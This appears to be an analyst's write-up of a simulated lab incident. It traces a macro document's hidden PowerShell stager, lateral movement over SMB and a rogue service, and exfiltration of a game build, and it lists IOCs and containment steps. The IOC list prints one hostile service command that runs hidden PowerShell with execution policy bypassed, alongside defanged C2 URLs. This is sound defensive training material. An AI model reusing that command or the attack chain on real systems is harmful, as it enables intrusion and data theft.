1. Cause of workstation activity: Opening `C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm` caused `WINWORD.EXE` to execute a hidden, Base64-encoded PowerShell stager that downloaded and ran `svchost_update.ps1` from `paylink-cdn[.]thm:8067`.
2. External communication: Yes. `THM-MSMITH` (`10.60.10.22`) opened 53 TCP connections to `45[.]147[.]230[.]131:8067` (`paylink-cdn[.]thm`) on a ~30-second HTTP beacon cycle, and `THM-SREYES` (`10.60.10.20`) opened 15 more to the same server.
3. Lateral movement: The actor mounted `\\THM-SREYES\C$` over SMB, copied `svchost_update.ps1` into `C:\Windows\Temp\`, and used `sc.exe` under `TRYHATME\svc-mktshare` to create and start a `LocalSystem` service (`SvcUpdate`).
4. Data access and removal: `C:\Dev\NeuralNexus\Build\*` on `THM-SREYES` was listed, archived into `C:\Windows\Temp\nx_build_beta.7z`, and sent via HTTP POST to `hxxp://paylink-cdn[.]thm:8067/upload`. Proxy or firewall logs are still required to confirm transfer completion and byte volume.

## Indicators of Compromise (IOCs)

- C2 domain: `paylink-cdn[.]thm`
- C2 IP / port: `45[.]147[.]230[.]131:8067` (TCP / plain HTTP)
- URLs: `hxxp://paylink-cdn[.]thm:8067/svchost_update.ps1`, `hxxp://paylink-cdn[.]thm:8067/upload`
- Host artifacts:
  - `C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm`
  - `C:\Users\m.smith\AppData\Local\Temp\svchost_update.ps1`
  - `C:\Windows\Temp\svchost_update.ps1`
  - `C:\Windows\Temp\nx_build_beta.7z`
  - `%TEMP%\pvrwsrjt.cmdline`, `C:\Windows\Temp\5ywlufsj\5ywlufsj.cmdline`
- Malicious service: `SvcUpdate` (`LocalSystem`, `cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1`)
- Compromised hosts and accounts: `THM-MSMITH` (`10.60.10.22`), `THM-SREYES` (`10.60.10.20`), `TRYHATME\m.smith`, `TRYHATME\svc-mktshare` (`Logon ID 0x24F6572`)

## Escalation Package: Containment & Remaining Gaps

### Recommended Containment Actions

1. Isolate `THM-MSMITH` and `THM-SREYES` from the network through EDR.
2. Block `paylink-cdn[.]thm` and `45[.]147[.]230[.]131` (port `8067`) at DNS, web proxy, and perimeter firewall.
3. Disable and rotate credentials for `TRYHATME\m.smith`, `TRYHATME\svc-mktshare`, and any other accounts stored in `m.smith`'s Windows Credential Manager; audit recent `svc-mktshare` logons (`0x24F6572`) and Domain Admin group changes.
4. Collect forensic copies of memory, `Q3_PressKit_Feedback.docm`, `svchost_update.ps1`, and `nx_build_beta.7z`, then stop and delete the `SvcUpdate` service and remove staged files from `%TEMP%` and `C:\Windows\Temp`.
5. Query SIEM and proxy logs across all endpoints for any other connections to `45[.]147[.]230[.]131`, Office processes spawning PowerShell, or Event `4697`/`7045` services invoking `cmd.exe` or `powershell.exe`.
6. Notify the *NeuralNexus* release lead to assess IP exposure once proxy logs confirm whether `nx_build_beta.7z` finished uploading.

### Open Gaps Handed Off to L2 / IR

- Initial delivery vector: endpoint logs show `Q3_PressKit_Feedback.docm` opened from `C:\Users\m.smith\Downloads\`, but email gateway or browser history is needed to see how it arrived and whether other Marketing staff received the same lure.
- Credential extraction proof: `vaultcmd.exe` and `csc.exe` (`pvrwsrjt.cmdline`) precede the `svc-mktshare` lateral movement, but logs do not capture command output to prove `svc-mktshare` came from Credential Manager rather than a script or share file.
- Exfiltration completion: Sysmon `EventCode=3` confirms the TCP connection for the `/upload` POST opened, not the HTTP response status or bytes sent.

## Simulation Results & Notes

I finished the run with a 100% True Positive rate (`7/7` intrusion alerts escalated) and 820 points, losing accuracy marks on the two false positives (`6352` and `6358`) and some MTTR score while verifying the Exfiltration timeline.



A few practical notes from reviewing the run and the simulator's grading feedback:

- Anchor business impact early in individual case reports: the simulator's report feedback pointed out that my technical 5Ws were solid, but individual alert reports should state *why* the targeted asset matters (theft of the unreleased *NeuralNexus* game build ahead of launch) upfront rather than saving it for the containment section.
- Separate `EventCode=1` gaps from `EventCode=4104` visibility: three pivotal actions in this chain (decoding the download URL, `Copy-Item` over `\\THM-SREYES\C$`, and `Invoke-RestMethod` uploading `nx_build_beta.7z`) never spawned dedicated child binaries or hit Sysmon `EventCode=11` exclusions, and were only provable through PowerShell Script Block Logging.
- Pivot on `ProcessGuid` and `ParentProcessGuid` first: a single `ParentProcessGuid` query exposed both `ai.exe` and the hidden PowerShell stager 1 ms apart under `WINWORD.EXE`, and another recovered the entire post-exploitation sequence under `svchost_update.ps1`.

*The lab and the analysis are mine. I used Gemini to help structure my notes and edit the post.*
